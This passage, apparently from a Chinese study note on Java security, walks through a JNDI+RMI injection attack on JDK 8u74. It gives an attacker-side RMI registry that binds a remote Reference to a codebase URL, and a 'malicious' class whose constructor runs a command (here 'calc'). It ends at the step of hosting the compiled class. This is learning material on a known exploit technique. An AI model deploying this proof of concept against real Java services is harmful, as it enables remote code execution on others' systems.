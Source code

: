 ![image-20220213235234141](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220213235234141.png)

## JNDI+RMI攻击

可以来看一个RMI+JNDI的例子,我使用的是8u74的jdk版本

首先是服务端（攻击者）

```
package JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class server {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        String url = "http://127.0.0.1:8081/";
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("test", "test", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("obj",referenceWrapper);
        System.out.println("running");
    }
}
```

因为是配合RMI进行JNDI注入,所以还是和RMI一样创建一个服务端,绑定对应端口,之前学习RMI的时候提到远程对象需要实现`Remote`接口和继承 `UnicastRemoteObject`类才是可以远程调用的,但是因为Reference类没有实现`Remote`接口也没有继承 `UnicastRemoteObject`类,而ReferenceWrapper类却满足,所以用ReferenceWrapper对Reference对象进行包装

![image-20220210132829359](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220210132829359.png)

恶意类

```
public class test {
    public test() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

这里不要弄成main方法了,应该构造一个显示的构造函数来放置恶意代码才会执行

并且这个恶意类不要加包名,所以放在了编译器的根目录,而且不要和服务端还有客户端放在同一个目录,不要在启动客户端的时候会直接从当前目录下寻找到这个class文件,不启动web服务也能成功

接下来编译出class文件挂载在web页面上
